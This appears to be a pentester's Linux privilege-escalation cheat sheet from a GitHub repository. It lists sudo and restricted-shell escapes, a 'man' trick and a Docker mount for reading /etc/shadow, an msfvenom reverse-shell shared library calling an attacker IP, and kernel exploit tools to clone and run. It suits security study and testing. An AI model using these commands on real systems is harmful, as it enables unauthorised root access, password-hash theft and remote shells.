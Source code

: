 # [See Linux Enumeration](../../Enumeration/FromTarget/Linux/README.md)

# SUID Binaries
##### Known SUID Binaries
```bash
/bin/ping
/bin/su
/bin/mount
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
```

# SUDO
##### Common Sudo Binaries to Establish root Shells
```bash
less (!sh)
more (!sh)
Vi/Vim (:!sh)
nmap (--interactive + !sh)
ftp (!sh)
gdb (!sh)
python
Perl
lrb
lua
```
##### Common Sudo Binaries to Execute Commands
```bash
man -P "id" man
man -P "cat /etc/shadow" man
```
##### Docker
[dockerevil](https://github.com/pyperanger/dockerevil)

# Restricted Shells
##### Escape with Vi/Vim
```bash
Vi/Vim (:!sh)
```
##### Escape with Find
```bash
find /home/<Username> -name <Exisiting Filename> -exec /bin/sh \;
# If file exists, it executes the command.
```
##### Escape with Python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
##### Escape with Perl
```bash
perl -e 'exec "/bin/sh";'
```
##### Escape with SSH
```bash
ssh <Restricted Username>@<Target> -t "/bin/sh"
```
### Restricted Shells References
[Escape Restricted Shell](https://www.google.com/search?q=%22Restricted+shell%22+++%22pentesting%22&oq=%22Restricted+shell%22+++%22pentesting%22)


# Shared Object Libraries
##### Determine Libraries Loaded by Binary
```bash
ldd <Binary Name>
```
##### Determine if Binary was Compiled with RPATH
```bash
objdump -x <Binary Name> | grep RPATH
```
##### Determine if Binary was Compiled with RUNPATH
```bash
objdump -x <Binary Name> | grep RUNPATH
```
##### Generate Reverse Shell, Shared Object Library
```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf-so -o <Library Name>
# Transfer to the path indicated in RPATH or RUNPATH.
```

### Shared Object Libraries References
[Static, Shared Dynamic and Loadable Linux Libraries](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)

[Shared object library loading from writable location](https://www.mozilla.org/en-US/security/advisories/mfsa2013-87/)

[Shared Object Hijacking in Linux (Similar to "DLL Hijacking" in Windows)](https://bugzilla.mozilla.org/show_bug.cgi?id=1184466)

[Command Line Options](https://ftp.gnu.org/old-gnu/Manuals/ld-2.9.1/html_node/ld_3.html)

# Kernel Exploits
### Categories
[Arbitrary Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution)

[Buffer Overflows](https://en.wikipedia.org/wiki/Buffer_overflow)

[Memory Corruption](https://en.wikipedia.org/wiki/Memory_corruption)

[Denial Of Service](https://en.wikipedia.org/wiki/Denial-of-service_attack)

[Race Conditions](https://en.wikipedia.org/wiki/Race_condition)

### PrivEsc Kernel Vulnerabilities
[Dirty Cow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

[Stack Clash](https://blog.qualys.com/vulnerabilities-threat-research/2017/06/19/the-stack-clash)

[DCCP Double-Free Privilege Escalation](https://www.exploit-db.com/exploits/41458)

[Race Condition Privilege Escalation](https://www.exploit-db.com/exploits/43345)

### [Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
```bash
perl Linux_Exploit_Suggester.pl -k <Kernel Version>
```

### Metasploit

### [Kernelpop](https://github.com/spencerdodd/kernelpop)
##### Run from Source
```bash
git clone https://github.com/spencerdodd/kernelpop
cd kernelpop
python kernelpop.py || python3 kernelpop.py
```
##### Run from Binary
```bash
git clone https://github.com/spencerdodd/kernelpop
cd kernelpop
./create_executable.sh
./kernelpop
```

### Kernel Exploits References
[Linux Kernel](https://en.wikipedia.org/wiki/Linux_kernel)

[Arbitrary Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution)

[Buffer Overflows](https://en.wikipedia.org/wiki/Buffer_overflow)

[Memory Corruption](https://en.wikipedia.org/wiki/Memory_corruption)

[Denial Of Service](https://en.wikipedia.org/wiki/Denial-of-service_attack)

[Race Conditions](https://en.wikipedia.org/wiki/Race_condition)

[Dirty Cow](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

[Stack Clash](https://blog.qualys.com/vulnerabilities-threat-research/2017/06/19/the-stack-clash)

[DCCP Double-Free Privilege Escalation](https://www.exploit-db.com/exploits/41458)

[Race Condition Privilege Escalation](https://www.exploit-db.com/exploits/43345)

[Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

[Kernelpop](https://github.com/spencerdodd/kernelpop)

# UNIX Sockets
### Execute Commands through Docker as root
```bash
# Running Docker as non-root.
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
# Now running inside of Docker as root.
cat /docker/hashedpasswords > /docker/output.txt
chmod +777 /docker/output.txt
cat /docker/output.txt
```

### UNIX Sockets References
[Docker](https://docs.docker.com/engine/install/linux-postinstall/)

[Docker Tips: about /var/run/docker.sock](https://betterprogramming.pub/about-var-run-docker-sock-3bfd276e12fd)

# References
[LinEnum](https://github.com/rebootuser/LinEnum)

[LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)

[Unix-Privesc-Check](https://pentestmonkey.net/tools/unix-privesc-check)

[Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
